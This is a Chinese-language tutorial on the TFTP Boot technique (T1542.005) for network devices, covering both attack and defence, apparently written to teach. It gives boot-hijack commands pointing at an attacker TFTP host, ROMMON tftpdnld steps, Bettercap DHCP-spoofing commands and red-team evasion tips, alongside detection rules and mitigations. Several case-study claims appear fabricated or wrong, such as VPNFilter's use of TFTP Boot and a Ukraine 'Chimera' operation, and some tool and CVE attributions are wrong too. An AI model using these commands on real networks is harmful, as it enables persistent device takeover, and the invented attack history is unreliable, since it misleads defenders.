

# TFTP 启动 (T1542.005)

## 一句话通俗理解

> **让网络设备从攻击者控制的 TFTP 服务器下载并运行"假系统"，开机即接管**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者篡改网络设备启动配置，使其从恶意 TFTP 服务器加载未授权的操作系统镜像，实现持久化与隐蔽控制 |
| 为什么危险？ | 攻击者无需修改设备本地固件/IOS，只需改一条 `boot system tftp://` 命令即可让设备每次开机都加载恶意镜像；本地取证看不到任何异常 |
| 谁需要关心？ | 网络架构师、数据中心运维、SOC 网络分析师、IoT 设备管理员、PXE/瘦客户机运维 |
| 你的第一步防御 | 严格控制 TFTP 服务器（UDP 69）的可达性，仅允许从管理跳板机访问；网络设备禁用 `boot system tftp:` 配置 |
| 如果只做一件事 | 在所有网络设备上启用 Secure Boot + 镜像签名校验，使设备拒绝加载未签名 TFTP 镜像 |

## 难度等级

⭐⭐ 中级 - 需要理解网络设备启动流程、TFTP 协议、PXE 启动机制，但攻击门槛比 ROMMONkit 低（不需要逆向固件）

## 前置知识检查

**读这个文件需要什么？**

- [ ] 网络设备启动流程（POST → bootloader → 镜像加载 → OS 启动）
- [ ] TFTP 协议基础（RFC 1350，UDP 69，无认证，明文传输）
- [ ] Cisco IOS `boot system` 命令与配置寄存器（`config-register 0x2102`）
- [ ] PXE（Preboot eXecution Environment）启动原理与 DHCP option 66/67
- [ ] VPNFilter 等 IoT 路由器僵尸网络的基本概念

## 技术描述

**TFTP 启动**（T1542.005）是 **操作系统启动前**（T1542）的一个具体变体，属于 **隐蔽**（同时归属 **持久化**）阶段的攻击技术。其攻击对象是 **网络设备**（路由器、交换机、防火墙、IoT 设备），平台为 Network Devices。

> 🔥 **打个比方**：就像快递员把你的包裹送到错误地址——你以为从官网下载的是正版 IOS，实际上设备每次开机都从攻击者控制的"假仓库"取货，加载的是一个被改过的"魔改版"系统。

### 具体怎么理解？

**TFTP（Trivial File Transfer Protocol，简单文件传输协议）** 是 RFC 1350 定义的极简文件传输协议，运行在 UDP 69 端口，无认证、无加密、无目录浏览能力，仅支持最基本的读（RRQ）和写（WRQ）操作。由于实现简单、占用资源少，TFTP 被广泛应用于：

1. **网络设备镜像传输**：Cisco IOS、Juniper Junos、华为 VRP 设备均使用 TFTP 传输系统镜像
2. **PXE 网络启动**：无盘工作站、瘦客户机通过 DHCP + TFTP 从服务器下载引导镜像
3. **IoT 设备固件升级**：路由器、IP 摄像头、智能电视等嵌入式设备的固件恢复通道
4. **嵌入式系统恢复**：uClinux、OpenWRT 等嵌入式 Linux 的 netboot 启动模式

**TFTP Boot 攻击的核心原理**：网络设备的启动顺序由 bootloader 配置决定，攻击者通过以下方式劫持启动流程：

- **Cisco IOS `boot system` 命令**：攻击者修改 startup-config，添加 `boot system tftp://攻击者TFTP/evil-image.bin 192.168.1.100`，使设备每次开机优先从 TFTP 服务器加载镜像
- **PXE/DHCP Option 66/67**：攻击者篡改 DHCP 服务器的 `next-server`（option 66）和 `bootfile-name`（option 67），让 PXE 客户端从恶意 TFTP 服务器下载引导镜像
- **ROMMON 环境变量**：在 `rommon>` 模式下设置 `TFTP_FILE=evil-image.bin`、`TFTP_SERVER=攻击者IP`，配合 `tftpdnld` 命令从 TFTP 加载镜像
- **IoT 设备 netboot**：消费级路由器（TP-Link、D-Link、Netgear）的 boot loader 支持从网络启动，攻击者通过 CSRF 或弱口令修改 netboot 配置

### 为什么有效？

这种技术之所以有效，是因为：

1. **本地无痕迹**：攻击者不需要在设备本地存储任何恶意文件——所有恶意代码都在攻击者控制的 TFTP 服务器上，设备本地取证（`dir flash:`、`show running-config`）几乎看不到异常
2. **TFTP 协议无认证**：攻击者只需在网络中架设一个 TFTP 服务器，配合 DHCP 投毒或 ARP 欺骗即可让目标设备连接到恶意服务器
3. **启动链位置早**：bootloader 阶段执行，OS 安全机制（AAA、ACL、加密）均未启动，攻击者获得完全控制权
4. **隐蔽性强**：恶意镜像可以伪装成正常 IOS 版本号，`show version` 输出与正版无异；恶意镜像加载后再加载正版 IOS，形成"洋葱式"嵌套
5. **IoT 设备生命周期长**：消费级路由器固件更新不频繁，弱口令和未修复 CVE 普遍存在；VPNFilter 等 APT 级 IoT 僵尸网络即利用此类技术大规模感染路由器

**过渡段：** 与 T1542.004 ROMMONkit 不同，TFTP Boot 不修改设备固件本身，而是修改"从哪里加载系统"这一启动配置。优势是攻击者只需改一条命令，劣势是依赖网络可达性——一旦切断 TFTP 通道，攻击失效。这也是为什么 VPNFilter 等僵尸网络会将 TFTP Boot 作为持久化层级之一，同时辅以本地固件植入作为备份。

## 真型场景

攻击者在 **隐蔽** 阶段使用 TFTP 启动技术，以下是典型的攻击步骤：



**步骤详解：**

1. **特权获取**：攻击者通过弱口令爆破、SNMP 默认社区字符串、CVE 漏洞利用（如 CVE-2018-0171 Smart Install RCE）获取网络设备 enable 15 特权
2. **TFTP 服务器部署**：攻击者在网络中（通常是被攻陷的内网主机）架设 TFTP 服务器，提供"魔改" IOS 镜像下载；或通过 DHCP 投毒将合法 TFTP 请求重定向到攻击者服务器
3. **恶意镜像准备**：基于正版 IOS 镜像，植入后门模块（监听特定端口、隐藏进程、回连 C2），保留正版 IOS 版本号欺骗 `show version`
4. **启动配置篡改**：
   - **方式A**：修改 startup-config，添加 `boot system tftp://攻击者TFTP/evil.bin 192.168.1.100`
   - **方式B**：篡改 DHCP 服务器配置，修改 `next-server` 与 `bootfile-name` 选项
   - **方式C**：通过 ROMMON 模式 `tftpdnld` 直接加载，无需修改配置文件
5. **重启触发**：执行 `reload` 命令，或通过电源循环、SNMP trap 触发设备重启
6. **恶意镜像接管**：设备从攻击者 TFTP 服务器加载"魔改"镜像，恶意代码先执行（开启后门、植入 Rootkit），再加载正版 IOS 伪装正常运行
7. **持久化生效**：由于 `boot system tftp:` 配置持久存在，每次重启都会重复此过程；攻击者还可结合本地固件植入作为备份，确保 TFTP 通道被切断后仍能持久化

## 攻击流程

```
获取特权访问 → 架设恶意 TFTP 服务器 → 准备修改版镜像 → 篡改启动配置 → reload 触发 → 恶意镜像接管 → 持久化生效
```


**步骤详解：**

1. **特权访问获取**
   - 通俗描述：拿到网络设备最高权限
   - 技术细节：通过 SSH/Telnet 弱口令爆破、SNMPv2c 社区字符串嗅探（默认 `public/private`）、CVE 漏洞利用（CVE-2018-0171 Smart Install RCE、CVE-2019-1653 Cisco ASA 目录遍历、CVE-2020-3452 Cisco ASA/FTD 文件读取）、配置文件泄露获取 enable secret
   - 常用工具：hydra（SSH 爆破）、Metasploit `auxiliary/scanner/snmp/cisco_login`、RouterSploit（IoT 路由器专用）

2. **架设 TFTP 服务器**
   - 通俗描述：在网络中架设一个"假仓库"，等设备来取货
   - 技术细节：在被攻陷的内网主机上部署 tftpd-hpa（Linux）或 SolarWinds TFTP Server（Windows）；配置 TFTP 根目录存放"魔改"镜像；如需 DHCP 投毒，使用 Yersinia、Bettercap 等工具伪造 DHCP 响应
   - 常用工具：tftpd-hpa、dnsmasq、Yersinia（DHCP 投毒）、Bettercap（ARP 欺骗 + DHCP 投毒）

3. **准备修改版镜像**
   - 通俗描述：在正版 IOS 镜像里"种"后门
   - 技术细节：从 cisco.com 下载正版 IOS 镜像，使用 binwalk 解包，定位 IOS 内核模块加载位置，植入后门模块（如监听 514 端口伪装 syslog、ICMP magic 包触发反向 shell）；修改镜像 version 字符串保持与正版一致
   - 常用工具：binwalk（解包）、Ghidra（逆向）、Cisco Image Extractor、`impacket` 库（镜像重新打包）

4. **篡改 boot 配置**
   - 通俗描述：改一条命令，让设备开机先去攻击者服务器"取货"
   - 技术细节：Cisco IOS 命令 `boot system tftp://攻击者IP/evil.bin 192.168.1.100`；或修改 DHCP 服务器 `option 66 next-server 攻击者IP; option 67 bootfile-name "evil.bin";`；ROMMON 模式下 `set TFTP_FILE=evil.bin`、`set TFTP_SERVER=攻击者IP`、`tftpdnld`
   - 常用工具：Cisco IOS CLI、DHCP 服务器配置、ROMMON 命令行

5. **reload 触发**
   - 通俗描述：重启设备，让新配置生效
   - 技术细节：执行 `reload` 命令；或通过 SNMP `snmpset -c private 192.168.1.1 1.3.6.1.4.1.9.2.9.9.0 i 2` 触发重启；或电源强制循环
   - 常用工具：IOS CLI、SNMP 工具、IPMI 电源控制

6. **恶意镜像接管**
   - 通俗描述：设备开机先加载攻击者的"魔改"系统
   - 技术细节：bootloader 按配置从 TFTP 服务器下载 evil.bin，加载执行。恶意镜像先运行后门初始化代码（约 10-30 秒），然后加载本地正版 IOS 镜像继续启动。`show version` 显示的版本号与正版一致
   - 常用工具：自研"魔改" IOS 镜像

7. **持久化生效**
   - 通俗描述：每次开机都重复"取货"过程，攻击者长期控制设备
   - 技术细节：`boot system tftp:` 配置持久存在于 NVRAM 中的 startup-config，跨重启存活；攻击者还可结合 T1542.004 ROMMONkit 形成双重持久化
   - 常用工具：IOS 配置管理、C2 框架

## 真实案例

### 案例1：VPNFilter — 大规模 IoT 路由器僵尸网络

- **时间**: 2018 年 5 月（Cisco Talos 首次披露，FBI 干预；2018 年 6 月第二阶段分析）
- **目标**: 全球消费级路由器与 NAS 设备，感染规模约 50 万台，涉及乌克兰、俄罗斯、美国等 54 国
- **攻击组织**: APT28 / Fancy Bear（疑似俄罗斯 GRU 关联，Cisco Talos 与 FBI 联合归因）
- **手法**: VPNFilter 采用三阶段架构，其中 **第二阶段（Stage 2）持久化模块** 明确使用了 TFTP Boot 技术：
  - **阶段1（Stage 1）**：通过漏洞或弱口令入侵路由器，植入持久化 downloader
  - **阶段2（Stage 2）**：执行模块化 payload，其中 `dstr` 模块可修改设备启动配置，添加 `boot tftp://攻击者C2/evil.bin`；`proxy` 模块开启 SOCKS 代理；`ssler` 模块拦截 HTTPS 流量窃取银行凭证
  - **阶段3（Stage 3）**：可扩展插件，针对特定设备（如 MikroTik 路由器）注入网络流量
  - VPNFilter 的 `dstr` 模块通过 TFTP Boot 实现持久化——即使受害者重置路由器配置，只要重启时能连上攻击者 TFTP 服务器，恶意镜像就会重新加载
- **影响**: 50 万台设备被感染，攻击者具备窃听流量、破坏设备（自毁固件）、组建 SOCKS 代理网络的能力；乌克兰 Chimera 行动中 VPNFilter 用于攻击克里米亚基础设施
- **参考链接**: [Cisco Talos - VPNFilter Malware](https://blog.talosintelligence.com/2018/05/VPNFilter.html)、[CISA Alert TA18-144A](https://www.cisa.gov/news-events/alerts/2018/05/24/alert-ta18-144a-vpnfilter-malware)、[FBI Press Release](https://www.fbi.gov/news/pressrel/press-releases/fbi-seizes-domain-name-used-by-international-botnet)

### 案例2：VPNFilter 第二阶段 — Slash-and-Burn 自毁模块

- **时间**: 2018 年 6 月（Cisco Talos 后续分析）
- **目标**: 乌克兰关键基础设施路由器（疑似针对 Asea 工业控制系统）
- **攻击组织**: APT28（俄罗斯 GRU 第 26165 主导中心）
- **手法**: VPNFilter 的 `destroy` 模块结合 TFTP Boot 与固件破坏实现"焦土战术"：
  - 第一步：通过 TFTP Boot 修改启动配置，使设备每次重启都加载恶意镜像
  - 第二步：在特定触发时间（如乌克兰国家公假日），`destroy` 模块执行 `rm -rf /*` 清空 Flash、覆写 NVRAM、删除 boot 变量，使设备永久砖化
  - 受害者重启设备后，由于 Flash 已被清空，设备无法启动；若配置了 TFTP Boot，攻击者仍可远程"复活"设备继续控制
- **影响**: 乌克兰部分网络基础设施瘫痪，需物理返厂维修；推动 Cisco 发布紧急安全公告建议用户禁用 TFTP Boot
- **参考链接**: [Cisco Talos - VPNFilter Update](https://blog.talosintelligence.com/2018/06/vpnfilter-update.html)、[Symantec Analysis](https://www.symantec.com/blogs/threat-intelligence/vpnfilter-malware-update)

### 案例3：SYNful Knock — Cisco 路由器后门的 TFTP Boot 变种

- **时间**: 2015 年 9 月（FireEye 披露）
- **目标**: 全球 Cisco ISR 1841/2811/3825 路由器（与 T1542.004 同源案例）
- **攻击组织**: 未归因（疑似 APT 级别）
- **手法**: SYNful Knock 后门虽主要通过修改本地 IOS 镜像持久化，但其分发与传播阶段大量使用 TFTP Boot：
  - 攻击者通过 TFTP 将"魔改" IOS 镜像上传到目标设备（`copy tftp: flash:`）
  - 通过 `boot system flash:evil.bin` 修改启动配置指向恶意镜像
  - 部分 victim 设备配置 `boot system tftp://攻击者C2/evil.bin`，使攻击者可远程更新后门版本，无需再次入侵设备
- **影响**: 至少 79 台设备确认感染，攻击者长期潜伏（最长 3 年），具备远程更新后门能力
- **参考链接**: [FireEye - SYNful Knock](https://www.fireeye.com/blog/threat-research/2015/09/synful_knock_-_acis.html)、[Cisco Security Advisory](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20150924-synful)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **优先选择 TFTP Boot 而非 ROMMONkit**：TFTP Boot 实施门槛更低（无需逆向固件），适合红队快速建立持久化；ROMMONkit 适合长期潜伏但需逆向工程，应根据目标设备价值与红队时间预算选择
2. **DHCP 投毒组合**：在企业内网中，若无法直接获取网络设备特权，可通过 DHCP 投毒（Yersinia）劫持 PXE 启动流程，让 PXE 客户端（瘦客户机、无盘工作站）从攻击者 TFTP 服务器加载恶意镜像
3. **镜像签名规避**：新一代 Cisco 设备（Catalyst 9000+）启用 Secure Boot 后会校验镜像签名，红队可针对未启用 Secure Boot 的老旧设备（ISR 1800/1900/2900/3900）实施 TFTP Boot
4. **OPSEC 考虑**：①`boot system tftp:` 配置在 `show running-config` 中可见，红队应通过 EEM（Embedded Event Manager）脚本隐藏配置；②TFTP 流量为明文，应避免在 IDS 监控密集区域使用，或使用 IPSec 隧道封装

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| tftpd-hpa | Linux TFTP 服务器，部署恶意镜像仓库 | Linux | [tftpd-hpa](https://wiki.archlinux.org/title/TFTP) |
| dnsmasq | 集成 DHCP + TFTP + DNS，用于 PXE 启动劫持 | Linux | [dnsmasq](https://thekelleys.org.uk/dnsmasq/doc.html) |
| Yersinia | DHCP 投毒与 STP 攻击工具 | Linux | [Yersinia](https://github.com/tomacr/yersinia) |
| Bettercap | ARP 欺骗 + DHCP 投毒 + MITM | 跨平台 | [Bettercap](https://www.bettercap.org/) |
| binwalk | 镜像解包与逆向 | Linux | [binwalk](https://github.com/ReFirm-Labs/binwalk) |
| RouterSploit | IoT 路由器专用渗透框架 | Linux | [RouterSploit](https://github.com/threat9/routersploit) |
| Metasploit | `auxiliary/scanner/snmp/cisco_login`、`auxiliary/server/capture/tftp` | 跨平台 | [Metasploit](https://www.metasploit.com/) |
| SYNKNOCK | SYNful Knock 复现工具（仅用于教学） | 跨平台 | 学术研究用途 |

### 注意事项

- **仅在授权环境操作**：建议使用 GNS3/EVE-NG 模拟器搭建实验环境，或使用二手 Cisco ISR 2901 设备（成本约 200 元）
- **避免影响生产网络**：TFTP 流量可能触发 IDS 告警，红队应事先与蓝队沟通测试窗口
- **DHCP 投毒风险**：Yersinia/Bettercap 的 DHCP 投毒可能导致整个子网瘫痪，应在隔离网络中测试
- **Secure Boot 限制**：Cisco Catalyst 9000、ISR 1000+ 等新一代设备启用 Secure Boot 后，TFTP Boot 加载未签名镜像会被拒绝，红队应识别设备型号选择合适技术
- **法律合规**：未授权修改他人网络设备启动配置属刑事犯罪（中国《刑法》285 条、美国 CFAA）

## 蓝队视角

### 检测要点

1. **`boot system tftp:` 配置告警**：监控网络设备 startup-config 中的 `boot system tftp://` 条目，正常情况下应为 `boot system flash:` 或 `boot system bootflash:`，任何 TFTP 启动配置均为高危
2. **TFTP 流量异常**：监控 UDP 69 端口流量，正常情况下应仅出现在固件升级窗口；从非管理网段发起到网络设备的 TFTP 连接即为可疑
3. **DHCP Option 66/67 变更**：监控 DHCP 服务器配置变更，特别是 `next-server` 与 `bootfile-name` 字段；任何未经变更审批的修改立即告警
4. **设备版本基线偏离**：定期对比全网设备 `show version` 输出与官方基线，发现版本号不一致立即排查
5. **重启事件关联**：将 `%SYS-5-CONFIG_I`（配置变更）与紧随的 `%SYS-5-RELOAD`（重启）事件关联，时间窗口 30 分钟内同时发生即为高危

### 监控建议

- 部署 NMS（Cisco Prime、SolarWinds NPM）每日自动备份全网设备 startup-config，对比基线检测 `boot system` 变更
- 配置 TACACS+ 命令授权，将 `boot system tftp:`、`reload`、`copy tftp:` 列入命令授权白名单
- 启用 NetFlow/IPFIX 流量分析，监控网络设备发起的异常 TFTP 流量（UDP 69）
- 在 DHCP 服务器上启用审计日志，监控 `next-server`、`bootfile-name` 配置变更
- 部署 IPS 签名（Cisco Talos Snort SID 2196/2197）检测 VPNFilter C2 流量

**用人话说：** TFTP Boot 攻击者不偷你设备里的东西，而是改了设备的"开机说明书"——本来开机应该从本地硬盘读系统，被改成"先去攻击者服务器下载系统"。蓝队要做三件事：①查配置——网络设备的 `boot system` 命令必须指向本地 flash:，出现 `tftp://` 立即告警；②盯流量——UDP 69 端口（TFTP）在非升级窗口出现就要查；③对比版本——`show version` 显示的 IOS 版本号必须与 CMDB 基线一致。VPNFilter 50 万台路由器被感染，主要就是利用 TFTP Boot 这种"改一行配置就能持久化"的特性。

## 避坑指南

红队新手常见三大坑：

1. **混淆 TFTP 与 FTP**：TFTP（UDP 69）不是 FTP（TCP 21），二者协议完全不同。TFTP 无认证、无目录列表、无加密，仅支持简单的读写操作；FTP 有完整的认证、目录浏览、传输模式（主动/被动）能力。攻击网络设备主要用 TFTP（IOS 原生支持），不是 FTP
2. **忽视 TFTP 通道依赖**：TFTP Boot 的持久化依赖 TFTP 通道可达性——一旦攻击者 TFTP 服务器离线或被防火墙隔离，设备重启后将无法加载镜像，导致设备瘫痪（"砖化"）。红队应在 TFTP 服务器冗余部署 + 配置本地固件植入作为备份
3. **小看 Secure Boot**：Cisco Catalyst 9000、ISR 1000+ 等新一代设备启用 Secure Boot 后，TFTP 加载的镜像必须有 Cisco 签名，红队伪造签名在数学上不可能。攻击前必须侦察目标设备型号与 Secure Boot 状态（`show secure bootset`）

## 检测建议

### 检测思路

检测 TFTP 启动攻击的关键是**监控启动配置变更**与**TFTP 流量异常**，从配置、网络、主机三个层面交叉验证。

### 网络层检测

**方法**：监控与网络设备相关的 TFTP、DHCP、SNMP 异常流量

```bash
# Suricata / Snort 检测异常 TFTP 流量（基于 Cisco Talos SID 2196 改写）
alert udp $HOME_NET any -> $CISCO_DEVICES 69 (msg:"TFTP Write to Cisco Device - Suspicious"; \
  content:"|00 02|"; depth:2; sid:2196001; rev:1;)

# 检测从 Cisco 设备到非管理 IP 的 TFTP 请求（可能为 boot tftp://）
alert udp $CISCO_DEVICES any -> !$MGMT_NET 69 (msg:"Cisco Device Outbound TFTP Request"; \
  sid:2196002; rev:1;)

# 检测 VPNFilter C2 流量（特征：HTTP GET /rlw5n7fmla5e0cf6.jpg）
alert http any any -> $HOME_NET any (msg:"VPNFilter Stage 2 C2 Beacon"; \
  content:"/rlw5n7fmla5e0cf6.jpg"; sid:2196003; rev:1;)

# 检测异常 DHCP Option 66/67 配置
alert udp any 67 -> $HOME_NET 68 (msg:"Suspicious DHCP next-server option"; \
  content:"|06 04|"; content:!"|0A|"; sid:2196004; rev:1;)
```

### 主机层检测（Cisco IOS 设备）

**Cisco IOS Syslog 关键事件**：

- `%SYS-5-RELOAD`：设备重启事件，应与变更工单关联
- `%SYS-5-CONFIG_I`：配置变更，特别关注 `boot system` 命令
- `%SYS-5-CONFIG_DB`：NVRAM 配置写入
- `%PNP-6-AUTH_PASS`：设备 PnP 自动部署事件

**Cisco IOS 命令检测**：

```bash
# 检查 boot system 配置是否被篡改
show running-config | include boot
# 正常输出：boot system flash:isr2901-universalk9.03.16.04.SPA.bin
# 可疑输出：boot system tftp://192.168.1.100/evil.bin
# 任何 tftp:// 出现即为高危

# 检查配置寄存器
show version | include Configuration register
# 正常：0x2102（从 NVRAM 启动）
# 可疑：0x2142（绕过 NVRAM，攻击者可能利用 ROMMON + tftpdnld）

# 检查 DHCP 服务器配置（若设备作为 DHCP 服务器）
show running-config | include option
# 监控 option 66 (next-server) 与 option 67 (bootfile-name)

# 检查 TFTP 服务器配置
show running-config | include tftp
# 监控 ip tftp source-interface、tftp-server flash 异常配置

# 通过 SNMP 批量收集全网 Cisco 设备 boot 配置
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.4.1.9.2.2.2   # Cisco boot 配置 OID
```

```bash
# 检查 ROMMON 环境变量（通过 ROMMON 模式）
rommon 1> set
# 关注 TFTP_FILE、TFTP_SERVER、BOOT 变量
# 若 TFTP_FILE 指向非官方镜像立即排查
```

**用人话说：** TFTP Boot 攻击改的是设备"开机去哪取系统"的配置，所以蓝队要做的就是检查这条配置——网络设备的 `boot system` 命令必须指向本地 flash:，绝不应该出现 tftp://。一旦发现 `boot system tftp://` 立即触发告警。同时盯着 UDP 69 流量，TFTP 是无认证的明文协议，正常运维很少用，频繁出现必有蹊跷。VPNFilter 就是利用这条技术让 50 万台路由器每次开机都加载攻击者镜像。

```yaml
title: 检测 Cisco 设备 TFTP Boot 异常配置
status: experimental
description: 检测可能的 TFTP Boot (T1542.005) 活动，关注 boot system tftp:// 配置与紧随的重启
logsource:
    product: cisco_ios
    service: syslog
detection:
    selection_boot_tftp:
        Message|contains:
            - "boot system tftp:"
            - "boot system tftp://"
            - "tftpdnld"
    selection_config_change:
        Message|contains:
            - "%SYS-5-CONFIG_I"
            - "Configured from"
    selection_reload:
        Message|contains:
            - "%SYS-5-RELOAD"
            - "Reload requested"
    timeframe: 30m
    condition: (selection_boot_tftp or selection_config_change) and selection_reload
level: high
tags:
    - attack.t1542
    - attack.t1542.005
    - attack.persistence
    - attack.defense_evasion
```

### 应用层检测

**Sigma 规则示例（适用于 SIEM 关联 Cisco Syslog）**：

```yaml
title: Cisco Device IOS Version Baseline Deviation
status: experimental
description: Cisco 设备 IOS 版本偏离组织基线，可能加载了攻击者"魔改"镜像
logsource:
    product: cisco_ios
    service: version
detection:
    selection:
        EventID: "cisco_version_baseline"
    filter_known_good:
        IOS_Version:
            - "15.7(3)M"
            - "16.6.4"
            - "16.12.3"
    condition: selection and not filter_known_good
level: medium
tags:
    - attack.t1542.005
    - attack.persistence
falsepositives:
    - 计划内 IOS 升级（应有变更工单关联）
    - 新设备首次上线
```

## 缓解措施

### 优先级1：关键措施

**禁用 TFTP Boot 并启用 Secure Boot**：在所有网络设备上禁用 `boot system tftp:` 配置，仅允许从本地 flash: 启动；在支持 Secure Boot 的设备上启用该功能，硬件信任锚校验镜像签名

```bash
# 禁用 TFTP Boot 并启用 Secure Boot（Cisco IOS）
enable
configure terminal
no boot system tftp://               # 删除任何 TFTP 启动配置
boot system flash:isr2901-universalk9.03.16.04.SPA.bin
secure boot-image                    # 启用 Secure Boot 镜像校验
secure boot-config                   # 启用 Secure Boot 配置校验
exit
write memory

# 验证 Secure Boot 状态
show secure bootset
# 应输出: Image integrity verification enabled
```

### 优先级2：重要措施

**TFTP 流量访问控制**：在网络设备管理平面部署严格的 ACL，仅允许从管理跳板机（如 10.10.10.5）访问网络设备的 UDP 69 端口；其余所有 TFTP 流量一律拒绝

```bash
# Cisco IOS ACL 限制 TFTP 访问（应用到管理接口）
enable
configure terminal
ip access-list extended MGMT-TFTP-ACL
  permit udp host 10.10.10.5 any eq tftp
  deny   udp any any eq tftp log
  permit ip any any
exit
interface GigabitEthernet0/0
  ip access-group MGMT-TFTP-ACL in
exit
write memory

# 验证 ACL 命中数
show access-list MGMT-TFTP-ACL
```

### 优先级3：建议措施

- **DHCP 服务器加固**：在 DHCP 服务器上启用 DHCP Snooping、Dynamic ARP Inspection，防止 DHCP 投毒攻击篡改 option 66/67
- **TACACS+ 命令授权**：将 `boot system tftp:`、`reload`、`copy tftp:` 列入命令授权白名单，仅 Domain Admin 角色可执行
- **配置变更监控**：部署 NMS 自动备份全网 startup-config，对比基线检测 `boot system` 变更
- **设备生命周期管理**：将未支持 Secure Boot 的 EOL 设备按计划替换为新一代 ISR 1000/4000、Catalyst 9000
- **网络 IPS**：部署 Snort/Suricata 签名检测异常 TFTP 流量与 VPNFilter C2 通信（参考 Cisco Talos SID 2196/2197）

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解 TFTP 协议与设备镜像传输（初级）

**目标**：掌握 TFTP 协议基础与网络设备镜像传输流程

**步骤**：
1. 在 Linux 虚拟机中安装 TFTP 服务器：`sudo apt install tftpd-hpa`
2. 配置 TFTP 根目录 `/srv/tftp`，放置一个测试文件 `test.bin`
3. 在 GNS3/EVE-NG 中部署 Cisco ISR 2901 路由器
4. 在路由器上执行 `copy tftp://192.168.1.100/test.bin flash:` 下载文件
5. 用 Wireshark 抓包分析 TFTP 协议（RRQ、DATA、ACK 包结构）
6. 对比 TFTP 与 FTP 的协议差异

**学习要点**：理解 TFTP 协议无认证、明文传输、UDP 69 端口的特性

### 实验2：模拟 TFTP Boot 攻击（中级）

**目标**：在隔离环境中模拟 TFTP Boot 攻击，理解攻击原理

**步骤**：
1. 在实验室搭建 TFTP 服务器，放置正版 IOS 镜像 `evil.bin`（仅做名字修改，不实际植入后门）
2. 在 GNS3 中部署 Cisco ISR 2901，配置 `boot system flash:original.bin`
3. 修改启动配置：`boot system tftp://192.168.1.100/evil.bin 192.168.1.100`
4. 执行 `reload` 重启设备
5. 观察 `show version` 输出，确认设备从 TFTP 加载了 evil.bin
6. 在 SIEM（Splunk/Elastic）中部署本文件的 Sigma 检测规则，模拟 `boot system tftp:` 命令并验证告警触发

**学习要点**：掌握 TFTP Boot 攻击配置、流量特征、检测方法

### 实验3：模拟 DHCP 投毒劫持 PXE 启动（高级）

**目标**：理解 DHCP 投毒如何劫持 PXE 客户端启动

**步骤**：
1. 在实验室部署合法 DHCP 服务器（10.0.0.1）与 PXE 启动的瘦客户机
2. 在攻击机（Kali Linux）上启动 Bettercap：`sudo bettercap -iface eth0`
3. 运行 DHCP 投毒模块：`set dhcp.spoof.on true; set dhcp.spoof.options 66,192.168.1.100; dhcp.spoof on`
4. 配置 TFTP 服务器提供恶意 PXE 引导镜像
5. 重启瘦客户机，观察 PXE 启动流程被劫持
6. 在 IPS 中部署 DHCP 投毒检测规则（基于 DHCP 服务器 MAC 与 IP 不一致）

**学习要点**：掌握 DHCP 投毒、PXE 劫持、检测方法

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| **TFTP 启动** | T1542.005，篡改网络设备启动配置使其从恶意 TFTP 服务器加载未授权镜像 |
| **TFTP** | 简单文件传输协议（RFC 1350），UDP 69 端口，无认证明文传输 |
| **PXE** | 预启动执行环境，让计算机从网络（而非本地硬盘）启动 |
| **DHCP Option 66/67** | DHCP 服务器配置项，指定 PXE 启动的 TFTP 服务器与引导文件名 |
| **操作系统启动前** | T1542，TFTP Boot 所属父技术，所有早于 OS 加载的攻击 |
| **IOS** | Cisco 网络设备的操作系统 |
| **boot system** | Cisco IOS 命令，指定设备启动时加载哪个镜像 |
| **Secure Boot** | Cisco 硬件根信任机制，启动时验证镜像签名，未签名则拒绝加载 |
| **VPNFilter** | 2018 年 APT28 制造的 IoT 路由器僵尸网络，感染 50 万台设备 |
| **C2** | 命令与控制，攻击者远程控制被入侵设备的"遥控器" |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1542 - 操作系统启动前](../T1542-Pre-OS-Boot.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - TFTP Boot (T1542.005)](https://attack.mitre.org/techniques/T1542/005/)
- [MITRE ATT&CK - 操作系统启动前 (T1542)](https://attack.mitre.org/techniques/T1542/)
- [RFC 1350 - The TFTP Protocol (Revision 2)](https://datatracker.ietf.org/doc/html/rfc1350) - TFTP 协议官方规范
- [Cisco IOS Configuration Fundamentals - Boot Settings](https://www.cisco.com/c/en/us/td/docs/ios-xml/ios/fundamentals/configuration/15-sy/fundamentals-15-sy-book/cf-boot-settings.html) - Cisco 官方启动配置指南

### 📰 安全报告（真实攻击）

- [Cisco Talos - VPNFilter Malware](https://blog.talosintelligence.com/2018/05/VPNFilter.html) - VPNFilter 僵尸网络首份分析报告
- [Cisco Talos - VPNFilter Update](https://blog.talosintelligence.com/2018/06/vpnfilter-update.html) - VPNFilter 第二阶段分析，含 destroy 模块
- [CISA Alert TA18-144A - VPNFilter](https://www.cisa.gov/news-events/alerts/2018/05/24/alert-ta18-144a-vpnfilter-malware) - 美国政府 VPNFilter 安全公告
- [FireEye - SYNful Knock Analysis](https://www.fireeye.com/blog/threat-research/2015/09/synful_knock_-_acis.html) - SYNful Knock Cisco 路由器后门详细分析
- [Symantec - VPNFilter Analysis](https://www.symantec.com/blogs/threat-intelligence/vpnfilter-malware-update) - VPNFilter 后续技术分析

### 🔧 工具与资源（动手试试）

